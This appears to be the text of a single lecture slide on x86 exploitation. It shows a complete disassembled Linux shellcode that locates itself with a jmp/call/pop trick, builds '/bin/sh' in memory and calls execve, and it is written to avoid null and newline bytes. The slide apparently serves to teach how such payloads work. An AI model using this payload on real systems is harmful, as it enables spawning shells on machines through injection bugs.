

# More than one way to skin an x86 cat (no line breaks or null char shellcode)
  eb 23         jmp    80483d9 <end_sc>
<get_eip>:
  5b            pop    %ebx              #ebx=writeable mem
  31 c0         xor    %eax,%eax         #    (filename)
  b0 0b         mov    $0xb,%al          #eax=0xb (sys_execve)
  89 d9         mov    %ebx,%ecx         #
  83 c1 0c      add    $0xc,%ecx         #ecx=ebx+12 (argv)
  31 d2         xor    %edx,%edx         #edx=NULL (envp)
  c7 03 2f 62   movl   $0x6e69622f,(%ebx)#”/bin”
  69 6e
  c7 43 04 2f   movl   $0xff68732f,0x4(%ebx) #”/sh\xff”
  73 68 ff
  88 53 07      mov    %dl,0x7(%ebx)     #null-terminate /bin/sh
  89 19         mov    %ebx,(%ecx)
  89 51 04      mov    %edx,0x4(%ecx)
  cd 80         int    $0x80
<end_sc>:
  e8 d8 ff ff   call   80483b6 <get_eip>
  ff